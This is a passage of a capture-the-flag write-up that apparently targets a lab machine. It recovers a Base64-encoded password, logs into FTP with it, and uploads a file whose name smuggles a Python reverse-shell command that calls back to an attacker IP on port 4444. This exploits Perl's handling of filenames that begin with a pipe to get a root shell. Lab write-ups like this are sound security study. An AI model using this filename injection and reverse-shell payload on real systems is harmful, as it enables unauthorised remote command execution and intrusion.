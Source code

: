 
We can find the user password in Base64 here, and when decoded it gives the password `_G0tT4_C4tcH'3m_4lL!_`

We can't SSH in as the user with this, but we can access the FTP directory and place files.&#x20;

```
$ ftp 10.129.95.191                        
Connected to 10.129.95.191.
220 (vsFTPd 3.0.3)
Name (10.129.95.191:kali): pwnmeow
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

Now, we need to place a maliciously named CSV file to get RCE via Perl. There were a load of files within the FTP server, so I just used the one that was updated most recently.

```
drwx-wx---    2 ftp      ftp          4096 May 20  2021 version_groups
drwx-wx---    2 ftp      ftp          4096 May 20  2021 version_names
drwx-wx---    2 ftp      ftp          4096 Jul 06  2021 versions
```

Based on the StackOverflow question, we have to name our file `| <insert bash command>.csv`. In my testing, it seems to reject `/` characters for some reason. So let's create a payload without all of that using a `python3` reverse shell.

{% code overflow="wrap" %}
```
ftp> put test "|python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("\"10.10.14.13\",4444));[os.dup2(s.fileno(),f)for\ f\ in(0,1,2)];pty.spawn(""\"bash\")';.csv"
```
{% endcode %}

Remember to have a backslash behind all spaces and spaces to allow the upload to work. After waiting for a little while, we would get a reverse shell on the specified port.&#x20;

<figure><img src="../../../.gitbook/assets/image (24) (2) (3).png" alt=""><figcaption></figcaption></figure>

Rooted!

